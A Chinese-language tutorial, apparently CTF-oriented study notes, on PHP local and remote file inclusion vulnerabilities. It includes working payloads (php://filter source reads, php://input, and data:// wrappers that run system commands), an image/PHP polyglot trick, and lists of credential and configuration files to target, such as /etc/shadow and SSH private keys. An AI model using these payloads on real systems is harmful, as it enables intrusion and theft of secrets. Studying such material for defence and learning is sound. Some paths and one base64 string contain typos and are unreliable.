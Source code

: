 ![](https://z3.ax1x.com/2021/09/26/46Fdvn.png)

远程文件包含条件：allow_url_include=On(默认关闭)

将文件以脚本的格式执行（根据当前网站脚本类型）

文件包含在 php 中，涉及到的危险函数有四个，分别是include()、include_once()、require()、require_once()

区别如下：

include：包含并运行指定的文件，包含文件发生错误时，程序警告，但会继续执行。include_once：和 include 类似，不同处在于 include_once 会检查这个文件是否已经被导入，如果已导入，下文便不会再导入，直面 once 理解就是只导入一次。

require：包含并运行指定的文件，包含文件发生错误时，程序直接终止执行。require_once：和 require 类似，不同处在于 require_once 只导入一次。

![](https://z3.ax1x.com/2021/09/26/46Fq8H.png)

![](https://z3.ax1x.com/2021/10/12/5mPl7Q.png)

```php
如果 PHP 的配置选项 allow_url_include、allow_url_fopen 状态为 ON 的话，则include/require 函数是可以加载远程文件的，这种漏洞被称为远程文件包含漏洞（RFI） file://+路径：将文件以脚本执行data://php://filter 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了php://input?test=php://input 【post data】<?php phpinfo();?>
```

~~~php
php://filter/read=convert.base64-encode/resource=要读取的文件

data://text/plain;base64,xxxx
<?php system("dir")?> base64编码后使用
?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJkaXIisssKT8%2b  (注意编码后的+号要URL编码)
<?php system("cat fl4gisisish3r3.php")?> base64编码后使用
?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==

?page=data://text/plain,<?phpprint_r(scandir(/var/www));?>
利用这条 payload 就可以读出当前目录的文件。
  
~~~

文件被解析，则是文件包含漏洞

显示源代码，则是文件读取漏洞

提示文件下载，则是文件下载漏洞，凡是有下载功能的地方都可能有下载漏洞

#### 重点：

当我们想利用文件文件包含jpg执行脚本代码，或者中间件的解析漏洞时，比如说

~~~
1.jpg	正常图片
1.txt	<?php phpinfo();?>
2.jpg	合成1.jpg和1.txt文件得到的
~~~



那么我们执行`Copy 1.jpg/b + 1.txt/a 2.jpg`，得到的2.jpg文件形式打开包含了php代码，如图

[![bDYPns.png](https://s1.ax1x.com/2022/03/06/bDYPns.png)](https://imgtu.com/i/bDYPns)



```php
根据上图修改路径下载文件：
数据库、平台……配置文件
Windows
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS 配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php 配置信息
C:\Windows\my.ini //Mysql 配置信息
C:\Windows\win.ini //Windows 系统的一个基本系统配置文件
```

~~~php
Linux
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/usr/local/app/php5/lib/php.ini //PHP 配置文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf //apache 配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql 历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的 cmdline 参数
都可以尝试下载
~~~

文件包含的危害：

1. 配合文件上传，可以上传非脚本格式文件包含后并以脚本格式执行
2. 利用伪协议读源码，读文本内容；读数据库和脚本配置文件，读日志（可能泄露ftp密码，ssh-log）
3. 代码执行-->命令执行、写webshell